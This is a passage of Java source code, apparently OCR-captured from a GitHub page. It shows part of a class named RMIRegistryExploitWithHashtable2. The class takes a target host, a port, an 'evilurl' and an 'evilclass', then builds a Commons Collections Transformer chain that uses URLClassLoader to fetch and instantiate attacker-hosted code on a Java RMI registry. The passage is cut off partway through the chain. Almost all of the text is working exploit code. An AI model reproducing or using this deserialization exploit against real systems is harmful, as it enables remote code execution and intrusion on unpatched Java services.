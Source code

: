 ```java
 */
public class RMIRegistryExploitWithHashtable2
{
    private static Throwable PrivateGetRootCause ( Throwable e )
    {
        Throwable cause = null;
        Throwable ret   = e;

        while ( null != ( cause = ret.getCause() ) && ( ret != cause ) )
        {
            ret = cause;
        }
        return ret;
    }

    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          addr        = argv[0];
        int             port        = Integer.parseInt( argv[1] );
        String          evilurl     = argv[2];
        String          evilclass   = argv[3];
        String[]        evilparam   = Arrays.copyOfRange
        (
            argv,
            4,
            argv.length
        );
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( URLClassLoader.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "newInstance",
                    new Class[]
                    {
                        URL[].class
                    }
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[]
                    {
                        new URL[]
                        {
```